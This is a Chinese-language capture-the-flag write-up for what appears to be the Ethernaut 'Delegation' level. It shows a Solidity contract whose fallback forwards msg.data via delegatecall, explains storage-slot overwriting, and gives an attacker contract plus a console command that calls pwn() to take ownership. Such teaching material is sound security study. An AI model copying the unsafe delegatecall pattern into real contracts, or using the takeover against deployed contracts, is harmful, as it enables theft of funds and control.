

# Delegation

## 问题

```
这一关的目标是申明你对你创建实例的所有权.

  这可能有帮助

仔细看solidity文档关于 delegatecall 的低级函数, 他怎么运行的, 他如何将操作委托给链上库, 以及他对执行的影响.
Fallback 方法
方法 ID
```

## 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```

## 漏洞

根据提示，学了一下 [可升级合约的原理-DelegateCall](https://blog.csdn.net/Lyon_Nee/article/details/125537829)

[Unsafe Delegatecall (part 1) | Hack Solidity (0.6)](https://www.youtube.com/watch?v=bqn-HzRclps)

[Unsafe Delegatecall (part 2) | Hack Solidity (0.6)](https://www.youtube.com/watch?v=oinniLm5gAM)

就是合约A使用delegatecall调用合约B的意思就是，合约A允许合约B通过Delegatecall调用的时候，使用A的上下文。


比如：`storage`,`msg.sender`,`msg.data`,`msg.value` 等等。



solidity中的storage都是按照上面的顺序进行保存的，状态变量都是storage类型。

当函数A通过Delegatecall调用函数B的时候，在这个瞬间，函数B可以使用A的上下文，也就是说，在现在函数A的stroage layout，其实在相同的序列号的情况下，已经B的覆盖掉了，因为他们用的同一个上下文。


## 解决方案

### 正确但不正确的解法

```solidity
pragma solidity ^0.8.0;

contract TokenPwn{
    address public _target;
    address public owner;
    constructor(address target_){
        _target = target_;
        owner = msg.sender;
    }

    function go()public  {
        address(_target).call(abi.encodeWithSignature("pwn()"));
    }
}
```

合约`Delegation`中明显没有`pwn`函数 ，因此会调用`fallback`函数。此时会通过`address(delegate).delegatecall(msg.data);`调用msg.data中的值。只是`msg.data`就只有`abi.encodeWithSignature("pwn()")`.

solidity的这个data全局变量，还是有点麻烦的。就是他是分为 函数选择器，数据等组成。

但是这里有一个问题，就是 `Delegate`合约中,`pwn`方法设置owner的方法是`owner = msg.sender;`，此时通过写一个代理合约的方法调用就没办法通关。
但是可以通过`tx`的全局变量来通关。


`await contract.sendTransaction({data:web3.utils.keccak256("pwn()")})`


但是，最后要知道，delegatecall是可以覆盖slot的，完全可以利用这个来实现覆盖某些变量。

